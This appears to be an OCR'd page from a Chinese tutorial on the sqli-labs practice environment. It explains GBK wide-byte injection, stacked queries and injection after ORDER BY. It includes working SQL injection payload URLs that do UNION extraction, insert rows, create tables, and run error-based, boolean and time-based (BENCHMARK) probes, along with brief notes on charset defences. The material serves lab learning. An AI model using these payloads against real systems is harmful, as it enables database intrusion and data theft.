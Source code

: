 ### 宽字节注入

mysql 在使用 GBK 编码的时候，会认为两个字符为一个汉字，例如%aa%5c 就是一个 汉字（前一个 ascii 码大于 128 才能到汉字的范围）。 我们在过滤 ’ 的时候，往往利用的思 路是将 ‘ 转换为 \’ （转换的函数或者思路会在每一关遇到的时候介绍）。

因此我们在此想办法将 ‘ 前面添加的 \ 除掉，一般有两种思路：

1、%df 吃掉 \ 具体的原因是 urlencode(‘) = %5c%27，我们在%5c%27 前面添加%df，形 成%df%5c%27，而上面提到的 mysql 在 GBK 编码方式的时候会将两个字节当做一个汉字，此 事%df%5c 就是一个汉字，%27 则作为一个单独的符号在外面，同时也就达到了我们的目的。 2、将 \’ 中的 \ 过滤掉，例如可以构造 %**%5c%5c%27 的情况，后面的%5c 会被前面的%5c 给注释掉。这也是 bypass 的一种方法。

http://127.0.0.1/sqli-labs/Less-32/?id=-1%df%27union%20select%201,user(),3–+

**使用 addslashes()**,我们需要将 mysql_query 设置为 binary 的方式，才能防御此漏洞。 addslashes() 函数返回在预定义字符之前添加反斜杠的字符串。 预定义字符是： 单引号（’） 双引号（”） 反斜杠（\） Mysql_query(“SET character_set_connection=gbk,character_set_result=gbk,character_set_client=binary”,$conn);

**mysql_real_escape_string() 函数**转义 SQL 语句中使用的字符串中的特殊字符。 下列字符受影响：  \x00  \n  \r  \  ’  “  \x1a 但是因 mysql 我们并没有设置成 gbk，所以 mysql_real_escape_string()依旧能够被突破。方法 和上述是一样的。

http://127.0.0.1/sqli-labs/Less-36/?id=-1%EF%BF%BD%27union%20select%201,user(),3–+

这个我们利用的 ‘ 的 utf-16 进行突破的，我们也可以利用%df 进行。 Payload： http://127.0.0.1/sqli-labs/Less-36/?id=-1%df%27union%20select%201,user(),3–+

设置代码： Mysql_set_charset(‘gbk’,’$conn’) 71

### 堆叠注入

union injection（联合注入）也是将两条语句合并在一起，两者之间有什么区别么？区别就在于 union 或者 union all 执行的语句类型是有限的，可以用来执行查询语句，而堆叠注入可以执行的是 任意的语句

http://127.0.0.1/sqli-labs/Less-38/index.php?id=1%27;insert%20into%20users(id,username,pass word)%20values%20(%2738%27,%27less38%27,%27hello%27)–+

SELECT * FROM users WHERE username=‘admin’ and password=’c’;create table less42 like users#

### order by后的injection

sql=“SELECT∗FROMusersORDERBYid”; 尝试?sort=1 desc 或者 asc，显示结果不同，则表明可以注入。（升序 or 降序排列）

我们的注入点在 order by 后面的参数中，而 order by 不同于的我们在 where 后的注入点，不能使用 union 等进行注入。

order by 后的**数字可以作为一个注入点**。也就是构造 order by 后的一个语句，让 该语句执行结果为一个数，我们尝试 http://127.0.0.1/sqli-labs/Less-46/?sort=right(version(),1)

没有报错，但是 right 换成 left 都一样，说明数字没有起作用，我们考虑布尔类型。

此时我 们可以用报错注入和延时注入。 此处可以直接构造 ?sort= 后面的一个参数。此时，我们可以有三种形式， ①直接添加注入语句，?sort=(select ******) ②利用一些函数。例如 rand()函数等。?sort=rand(sql 语句) ③利用 and，例如?sort=1 and (加 sql 语句)。

http://127.0.0.1/sqli-labs/Less-46/?sort=(select%20count(*)%20from%20information_schema.co lumns%20group%20by%20concat(0x3a,0x3a,(select%20user()),0x3a,0x3a,floor(rand()*2)))

http://127.0.0.1/sqli-labs/Less-46/?sort=rand(ascii(left(database(),1))=115)

http://127.0.0.1/sqli-labs/Less-46/?sort=rand(ascii(left(database(),1))=116)

http://127.0.0.1/sqli-labs/Less-46/?sort=%20(SELECT%20IF(SUBSTRING(current,1,1)=CHAR(115), BENCHMARK(50000000,md5(%271%27)),null)%20FROM%20(select%20database()%20as%20curr ent)%20as%20tb1)
